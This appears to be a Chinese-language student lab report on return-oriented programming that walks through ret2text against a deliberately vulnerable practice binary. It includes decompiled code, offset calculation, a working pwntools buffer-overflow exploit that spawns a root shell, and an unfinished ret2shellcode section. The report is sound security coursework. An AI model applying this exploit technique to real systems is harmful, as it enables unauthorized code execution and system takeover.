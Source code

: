 ```yaml
---
title: 赵旭_2022E8015082079_ex2B_report
tags:
notebook:
---
```

# <center>软件与系统安全 实验2B L1<center>  
**<p align="center">赵旭 2022E8015082079**<p>

### ROP：
ROP（Return-Oriented Programming）是一种基于代码重用的攻击技术，通过利用程序中的可执行代码（gadget）来构建攻击代码序列。攻击者通过伪造栈帧和构造恶意payload来实现将程序的控制权转移到攻击者指定的代码位置，从而实现攻击目的。
ROP攻击是一种非常强大的攻击技术，可以绕过ASLR等保护机制，同时无需利用漏洞的shellcode等可疑代码，往往能够实现难以察觉的远程攻击。因此，ROP攻击已经成为现代漏洞利用的主要方式之一，对于系统安全研究人员和安全工程师来说，掌握ROP攻击技术至关重要。

在本实验中，我们对一些基本的ROP应用场景进行攻击，最终目标为获取系统的shell从而获取进一步的控制权。

实验环境： Ubuntu 22.04.1 LTS (5.15.90.1-microsoft-standard-WSL2)、IDA Pro 7.7.220118、Python 3.10.6

### ret2text:
#### 背景：
ret2text是一种基于栈溢出的攻击技术，其利用目标程序中的未被打开保护的栈溢出漏洞，将攻击者指定的shellcode注入程序堆栈，并利用栈溢出漏洞控制程序的流程，将程序执行流程转移到栈上注入的shellcode，最终实现我们的目的。
#### 流程：
首先使用checksec检查其保护机制
```bash
root@AimerLegion:~/exp2/binary# checksec ret2text
[*] '/root/exp2/binary/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
由此可知这是一个32位x86架构程序，具有以下特征：部分重定位只读（Partial RELRO），没有开启堆栈保护（No canary found），开启了堆栈不可执行（NX enabled），没有启用位置独立性保护（No PIE），利用IDA查看其main函数源码:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets(s);
  printf("Maybe I will tell you next time !");
  return 0;
}
```
在主函数中使用了gets()函数，说明可以利用缓冲区溢出，随后查看secure()函数源码：
```C
void secure()
{
  unsigned int v0; // eax
  int input; // [esp+18h] [ebp-10h] BYREF
  int secretcode; // [esp+1Ch] [ebp-Ch]

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf(&unk_8048760, &input);
  if ( input == secretcode )
    system("/bin/sh");
}
```
其中调用了system("/bin/sh")，查询其地址为：
```x86asm
.text:0804863A     mov  dword ptr [esp], offset command ; "/bin/sh"
```
因此我们的目标是利用gets()函数对缓冲区进行溢出，覆盖main函数的返回地址为0804863A，从而获取系统的shell，剩下的工作是计算需要溢出的字段长度。

我们在gets()函数处设置断点，各寄存器值为：
![ret2text1](./assets/ret2text1.jpg)
由此可得s相对于返回位置的偏移为EBP-EAX+4=0xFFBBBDA8-0xFFBBBD3C=0x6C+4

因此，我们应填充0x6C+4个垃圾字符，随后放入system("/bin/sh")的地址0x0804863A，随后即可调用shell，程序代码为：
```python
from pwn import *
from pwnlib.util.packing import p32

sh = process('binary/ret2text')
target = 0x804863a
payload = b'A' * (0x6c+4) + p32(target)
sh.sendline(payload)
sh.interactive() 
```
#### 运行结果：
```shell
root@AimerLegion:~/exp2# /bin/python3 /root/exp2/code/ret2text.py
[+] Starting local process 'binary/ret2text': pid 12659
[*] Switching to interactive mode
There is something amazing here, do you know anything?
Maybe I will tell you next time !$ ls
README.md  assets  binary  code  linux_server64  report.md
$ whoami
root
$  
```
可见成功调用了shell，攻击成功。

### ret2shellcode:
#### 背景：
ret2shellcode的攻击方式是将栈上存储的shellcode作为攻击载荷，通过栈溢出漏洞将程序的控制流指向该shellcode，从而实现攻击目的。攻击者通常通过生成恶意shellcode的工具，将shellcode写入栈中，然后通过修改程序的栈帧，将程序的返回地址指向存储shellcode的地址。当程序执行到存储在栈上的shellcode时，恶意代码将被执行，从而实现任意代码执行的攻击。相比之下，ret2text攻击是将程序代码中的某些可执行指令作为攻击载荷，通过栈溢出漏洞将程序的返回地址指向该指令的地址，从而实现攻击目的。其不同之处在于ret2shellcode攻击需要利用恶意shellcode实现任意代码执行，而ret2text攻击则需要利用程序本身的可执行指令来实现恶意代码执行。
#### 流程：
首先使用checksec检查其保护机制
```bash
root@AimerLegion:~/exp2/binary# checksec ret2shellcode
[*] '/root/exp2/binary/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
该程序部分重定位只读，没有开启堆栈保护，关闭了堆栈不可执行，没有启用位置独立性保护，具有可读可写可执行的段，完美符合我们的攻击条件，查看其main函数源码为：
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
同样存在溢出攻击的漏洞，而且该程序将s复制到buf2中，通过调试可发现buf2在bss中，即

